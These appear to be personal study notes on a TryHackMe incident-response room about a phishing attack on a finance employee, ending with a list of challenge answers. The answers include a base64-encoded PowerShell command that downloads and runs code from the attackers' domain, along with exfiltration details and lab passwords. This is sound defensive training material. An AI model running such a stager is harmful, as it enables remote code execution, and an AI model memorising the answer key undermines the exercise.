 #Subscribers #Windows 
https://tryhackme.com/room/boogeyman1


## intro 

﻿_Uncover the secrets of the new emerging threat, the Boogeyman._

In this room, you will be tasked to analyze the Tactics, Techniques, and Procedures (TTPs) executed by a threat group, from obtaining initial access until achieving its objective.

Prerequisites

This room may require the combined knowledge gained from the SOC L1 Pathway. We recommend going through the following rooms before attempting this challenge.

- [Phishing Analysis Fundamentals](https://tryhackme.com/room/phishingemails1tryoe)
- [Phishing Analysis Tools](https://tryhackme.com/room/phishingemails3tryoe)
- [Windows Event Logs](https://tryhackme.com/room/windowseventlogs)
- [Wireshark: Traffic Analysis](https://tryhackme.com/room/wiresharktrafficanalysis)
- [Tshark: The Basics](https://tryhackme.com/r/room/tsharkthebasics)

Investigation Platform

Before we proceed, deploy the attached machine by clicking the **Start Machine button** in the upper-right-hand corner of the task. It may take up to 3-5 minutes to initialise the services.

The machine will start in a split-screen view. In case the VM is not visible, use the blue Show Split View button at the top-right of the page.  

Artefacts  

For the investigation proper, you will be provided with the following artefacts:

- Copy of the phishing email (dump.eml)
- Powershell Logs from Julianne's workstation (powershell.json)
- Packet capture from the same workstation (capture.pcapng)

Note: The powershell.json file contains JSON-formatted PowerShell logs extracted from its original evtx file via the [evtx2json](https://github.com/Silv3rHorn/evtx2json) tool.

You may find these files in the /home/ubuntu/Desktop/artefacts directory.  

Tools

﻿The provided VM contains the following tools at your disposal:

- Thunderbird - a free and open-source cross-platform email client.
- [LNKParse3](https://github.com/Matmaus/LnkParse3) - a python package for forensics of a binary file with LNK extension.
- Wireshark - GUI-based packet analyser.
- Tshark - CLI-based Wireshark. 
- jq - a lightweight and flexible command-line JSON processor.

To effectively parse and analyse the provided artefacts, you may also utilise built-in command-line tools such as:

- grep
- sed
- awk
- base64

Now, let's start hunting the Boogeyman!


## email analysis

The Boogeyman is here!  

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.



## answers



```
agriffin@bpakcaging.xyz

julianne.westcott@hotmail.com

elasticemail

Invoice_20230103.lnk

Invoice2023!

aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==

cdn.bpakcaging.xyz,files.bpakcaging.xyz

seatbelt


C:\Users\j.westcott\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite

Microsoft Sticky Notes

protected_data.kdbx

keepass

hex

nslookup

python 

POST 

dns 

%p9^3!lL^Mz47E2GaT^y

4024007128269551





```






https://github.com/HuskyChaos/writeup-Boogeyman_1

https://motasem-notes.net/blue-team-soc-real-world-case-studies-complete-walkthrough-tryhackme-boogeyman-123/



![[Pasted image 20250315102735.png]]

152 points






































